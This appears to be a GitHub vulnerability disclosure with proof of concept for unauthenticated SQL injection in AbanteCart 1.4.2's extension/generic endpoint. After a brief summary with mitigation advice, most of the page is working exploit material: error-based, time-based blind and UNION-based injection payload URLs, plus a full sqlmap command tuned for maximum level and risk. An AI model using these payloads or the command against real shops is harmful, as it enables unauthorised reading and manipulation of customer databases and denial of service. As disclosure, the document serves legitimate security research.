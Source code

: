 

AbanteCart 1.4.2’s extension/generic endpoint is vulnerable to unauthenticated SQL injection via its URI parameter, allowing attackers to inject arbitrary queries. Three techniques have been demonstrated: error-based injection using a crafted FLOOR-based payload, time-based blind injection via SLEEP(), and UNION-based injection to extract arbitrary data. An attacker can exploit this flaw without any credentials to read or manipulate the database and even cause denial-of-service delays. Automation tools like sqlmap can fully exploit the vulnerability with high risk and confidence levels. Patching to a fixed version or enforcing parameterized queries and strict input validation will mitigate the issue


```
Parameter: #1* (URI)

Type: error-based

Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)

Payload: https://abantecart.mydomain.local/index.php?rt=extension/generic&layout_id=21&tmpl_id=novator' AND (SELECT 3875 FROM(SELECT COUNT(*),CONCAT(0x717a766b71,(SELECT (ELT(3875=3875,1))),0x7178766a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- LeJi&pb=Qu2sbP4VAZzalFIcmM7ZirFAsh5mjwZt



Type: time-based blind

Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)

Payload: https://abantecart.mydomain.local/index.php?rt=extension/generic&layout_id=21&tmpl_id=novator' OR SLEEP(5)-- molm&pb=Qu2sbP4VAZzalFIcmM7ZirFAsh5mjwZt



Type: UNION query

Title: Generic UNION query (NULL) - 7 columns

Payload: https://abantecart.mydomain.local/index.php?rt=extension/generic&layout_id=21&tmpl_id=novator' UNION ALL SELECT NULL,NULL,CONCAT(0x717a766b71,0x5774684b744b685477646a5750474952555a70454a776c77666442567169746d4b415749446d7178,0x7178766a71),NULL,NULL,NULL,NULL-- -&pb=Qu2sbP4VAZzalFIcmM7ZirFAsh5mjwZt

---
```


This is a unique case where cookies are wanted to be set.  This is the best command to use
```
python3 ~/tools/sqlmapproject-sqlmap-c8c7fee/sqlmap.py -r ./sql.txt --level 5 --risk 3 --force-ssl --dbms mysql --answers='you have not declared cookie=n,Do you want to follow?=y' --flush
```

![](https://github.com/4rdr/proofs/blob/main/gifs/abante-1.4.2-unauthenticated-sql-injection.gif?raw=true)


